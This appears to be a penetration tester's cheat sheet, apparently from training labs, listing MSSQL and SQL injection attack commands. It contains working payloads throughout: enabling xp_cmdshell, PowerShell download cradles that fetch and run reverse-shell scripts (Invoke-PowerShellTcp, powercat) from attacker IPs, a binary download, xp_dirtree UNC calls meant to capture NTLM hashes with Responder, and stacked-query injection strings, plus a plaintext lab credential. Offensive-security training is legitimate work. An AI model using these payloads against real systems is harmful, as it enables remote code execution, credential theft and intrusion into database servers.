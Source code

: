 ```bash
```

## MSSQL
```bash
python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
./mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@10.129.228.253

select name from sys.databases

# db version
SELECT @@version;

# existing tables
SELECT * FROM offsec.information_schema.tables;

# select table
select * from offsec.dbo.users;

# try xp_cmdshell
> enable_xp_cmdshell
> xp_cmdshell whoami
> xp_cmdshell "powershell IWR -Uri http://10.10.210.147:9900/testrev.exe -outfile C:\temp\testrev.exe"


# try xp_dirtree (sudo responder -I tun0 -A)
> xp_dirtree \\10.10.14.83\share\dir
> xp_dirtree c:\
> xp_dirtree c:\inetpub\wwwroot


# Best reverse shell!!!
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(''http://10.10.210.147:9900/Invoke-PowerShellTcp.ps1'')"
```

## sqlite
```bash
sqlitebrowser ma.db
```


## SQLi
- mssql command injection
```bash
';EXEC sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXEC sp_configure "xp_cmdshell", 1;--
';RECONFIGURE;--
';EXEC xp_cmdshell 'powershell.exe -nop -w hidden -c "IEX ((New-Object Net.WebClient).DownloadString(''http://192.168.45.202/powercat.ps1''))"; powercat -c 192.168.45.202 -p 443 -e powershell'; --

or if we think the hash can be cracked...?
sudo responder -I tun0 -A
';EXEC xp_dirtree \\192.168.45.176\share
';EXEC%20xp_dirtree%20'\\192.168.45.202\share';--
EXEC MASTER.sys.xp_dirtree '\\10.10.14.19\share', 1, 1

or
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
' OR 1=1 ; exec master.dbo.xp_dirtree '\\192.168.49.239\test';--
```
